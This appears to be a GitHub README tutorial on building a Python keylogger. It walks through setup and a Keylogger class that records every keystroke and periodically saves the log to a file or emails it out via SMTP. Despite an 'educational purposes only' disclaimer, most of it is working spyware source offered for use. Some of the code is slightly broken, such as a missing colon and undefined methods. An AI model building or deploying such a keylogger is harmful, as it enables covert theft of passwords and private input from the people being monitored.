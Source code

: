 # Keylogger Step by Step  Walkthrough

Welcome to the Keylogger Walkthrough repository! This guide is designed to provide cybersecurity enthusiasts with the knowledge to create, analyze, and understand keyloggers. It is intended for educational purposes only.

Before diving into keylogger creation, it’s crucial to set up a proper environment. The guide suggests using a virtual environment (venv) to avoid dependency issues. It walks through the process of creating a folder for the keylogger, activating the virtual environment, and installing the keyboard module with pip install keyboard.


## What is keyboard module in python? 

Python offers a plethora of modules that extend its capabilities, and one such module is the keyboard module. This module is instrumental in creating keyloggers, tools designed to record keystrokes on a computer’s keyboard. While keyloggers can serve legitimate purposes like monitoring employee productivity or parental control, they also pose significant security risks if misused by malicious entities.
It's essential to note that while keyloggers have legitimate uses like monitoring employee productivity or parental control, they can be misused by hackers to capture sensitive information.

First, create a folder on your local system,

<pre>
mkdir keylogger
</pre>

Next, we would cd into the keylogger directory and create a virtual environment python -m venv myenv. Then, activate the Virtual environment source myenv/bin/activate, and then we can install dependencies.

<pre>
cd keylogger
python -m venv myenv
</pre>

## Prerequisites
Before we begin, you'll need to install the **keyboard** module. Open your terminal or command prompt and enter:

<pre>
$ pip install keyboard
</pre>

This module allows us to take control of the keyboard, hook global events, register hotkeys, simulate key presses, and more.

## Disclaimer

This guide should not be used for illegal purposes. The aim is to raise awareness about the capabilities and risks associated with keyloggers.

## Getting Started

This guide will walk you through setting up a basic keylogger using Python. You'll learn how to capture keystrokes and how to handle the data collected.

- Continuous keystroke monitoring
- Customizable report methods (email or local storage)
- Easy-to-follow Python scripts

# Setting Up the Keylogger

Let's initialize the required parameters:
<pre>

    import keyboard
    import smtplib
    from threading import Timer
    from datetime import datetime
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
</pre>

Replace **your_email@example.com** and **your_email_password** with your actual email credentials.

Now, we'll create a class to represent the keylogger:

<pre>
   class Keylogger:
        def __init__(self, interval, report_method="email"):
            self.interval = interval
            self.report_method = report_method
            self.log = ""
            self.start_dt = datetime.now()
            self.end_dt = datetime.now()
</pre>

The **interval** parameter represents the reporting frequency, and **report_method** specifies whether to send logs via email or save them to a local file.

## Listening to Keystrokes

We'll utilize the **keyboard** module's **on_release()** function to capture keystrokes:

<pre>
     def callback(self, event):
        name = event.name
        if len(name) > 1:
            if name == "space":
                name = " "
            elif name == "enter":
                name = "[ENTER]\n"
            elif name == "decimal":
                name = "."
            elif name == "backspace"
                name = ""
            else:
                name = name.replace(" ", "_")
                name = f"[{name.upper()}]"

        self.log += name
</pre>

This callback function is invoked whenever a key is released. It transforms special keys and adds them to the global **self.log** variable.

## Reporting Keystrokes

Depending on the chosen **report_method**, we can report the keystrokes either via email or save them to a local file:

<pre>
     def report_to_file(self):
        with open(f"{self.filename}.txt", "w") as f:
            print(self.log, file=f)
        print(f"[+] Saved {self.filename}.txt")

    def sendmail(self, email, password, message, verbose=1):
        # SMTP server connection and email sending logic
        # ...
</pre>

## Scheduling Reports

To ensure periodic reporting, we'll use a timer:
<pre>
    def report(self):
        if self.log:
            self.end_dt = datetime.now()
            self.update_filename()
            if self.report_method == "email":
                self.sendmail(EMAIL_ADDRESS, EMAIL_PASSWORD, self.log)
            elif self.report_method == "file":
                self.report_to_file()
            print(f"[{self.filename}] - {self.log}")
            self.start_dt = datetime.now()
        self.log = ""
        timer = Timer(interval=self.interval, function=self.report)
        timer.daemon = True
        timer.start()
  </pre>
  
This method is called at regular intervals (**self.interval**) to report the accumulated keystrokes.

## Starting the Keylogger

Finally, we initiate the keylogger with the following code:

<pre>
    def start(self):
        self.start_dt = datetime.now()
        keyboard.on_release(callback=self.callback)
        self.report()
        print(f"{datetime.now()} - Started keylogger")
        keyboard.wait()
  </pre>
  
This **start()** method records the start time, sets up the keylogger, and waits for the user to press CTRL+C to exit the program.

## Putting It All Together

Now, let's instantiate the **Keylogger** class and start the keylogger:

<pre>
    if __name__ == "__main__":
        keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="file")
        keylogger.start()
</pre>

Uncomment the line with **report_method="email"** if you prefer to receive reports via email.

To get it started, run sudo python nameoffile.py. If you run this without side you will get an error.

## Contribution

Contributions are welcome! If you have any suggestions or improvements, please feel free to fork the repository and submit a pull request.

## Acknowledgments

- All contributors who have helped with this guide
- The cybersecurity community for their continuous support

Thank you for visiting the Keylogger-Guide repository!


